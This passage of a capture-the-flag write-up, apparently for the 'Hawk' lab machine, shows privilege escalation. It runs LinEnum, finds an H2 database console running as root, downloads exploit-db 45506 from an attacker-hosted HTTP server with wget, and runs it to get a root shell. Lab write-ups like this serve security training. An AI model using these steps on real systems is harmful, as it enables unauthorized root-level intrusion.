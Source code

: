 ```text
./LinEnum.sh
```

An interesting process does pop up.

```text
root        815  0.0  0.0   4628   812 ?        Ss   00:45   0:00 /bin/sh -c /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar
```

The H2 database is run with root privileges. Let’s check access to the _/opt/h2_ directory.

```text
www-data@hawk:/tmp$ ls -la /opt | grep h2
drwxrwx---  8 1000 1004 4096 Jun 11  2018 h2
```

We don’t have permissions to enter the directory. However, the H2 database was running on port 8082, so let’s view it in the browser.

![](https://miro.medium.com/max/968/1*FJ8I2NVjnuhySnTbmR9NdA.png)

It only allows local connections. At this point I googled “H2 exploit” and found the following [exploit](https://www.exploit-db.com/exploits/45506).

![](https://miro.medium.com/max/843/1*GU1XoPIk1p4U6H9SPU8Bkg.png)

The vulnerability seems to be with the fact that you can create a new database without having authentication credentials. When the new database is created the default credentials are created and the attacker is automatically logged in. From there you can execute Java commands and get arbitrary code execution on the box. Since the H2 database is running with root privileges, our code will execute with root privileges.

Let’s download the exploit.

```text
searchsploit -m 45506
```

Set up an HTTP server where the script resides.

```text
python -m SimpleHTTPServer 5555
```

Then download the script in the target machine.

```text
wget http://10.10.14.12:5555/45506.py
```

Run the script.

```text
www-data@hawk:/tmp$ python3 45506.py -H 127.0.0.1:8082
[*] Attempting to create database
[+] Created database and logged in
[*] Sending stage 1
[+] Shell succeeded - ^c or quit to exit
h2-shell$ whoami
root
```
